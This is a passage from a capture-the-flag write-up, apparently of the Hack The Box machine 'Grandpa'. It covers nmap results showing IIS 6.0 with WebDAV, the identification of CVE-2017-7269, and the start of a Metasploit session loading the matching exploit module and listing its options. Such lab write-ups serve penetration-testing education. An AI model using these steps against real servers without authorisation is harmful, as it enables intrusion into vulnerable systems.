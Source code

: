```console
|   WebDAV type: Unknown
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Type: Microsoft-IIS/6.0
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Let's checkout the website.  A simple under construction page it looks like:

![Grandpa website](/assets/images/HTBoxes/Grandpa/grandpa-website.png)

### Foothold

I noticed with the nmap scan it is showing IIS 6.0, so based off how old that is I'm guessing there's a CVE involved.  Basically googling "IIS 6.0 remote code execution" and I come across a WebDAV buffer overflow vulnerability ([CVE-2017-7269](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-7269)).  There's a [metasploit exploit](https://github.com/rapid7/metasploit-framework/pull/8162) to use here.

```console
msf5 > use exploit/windows/iis/iis_webdav_scstoragepathfromurl
msf5 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > show options

Module options (exploit/windows/iis/iis_webdav_scstoragepathfromurl):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   MAXPATHLENGTH  60               yes       End of physical path brute force
   MINPATHLENGTH  3                yes       Start of physical path brute force
   Proxies                         no        A proxy chain of format type:host:port[,type:host:port][...]
```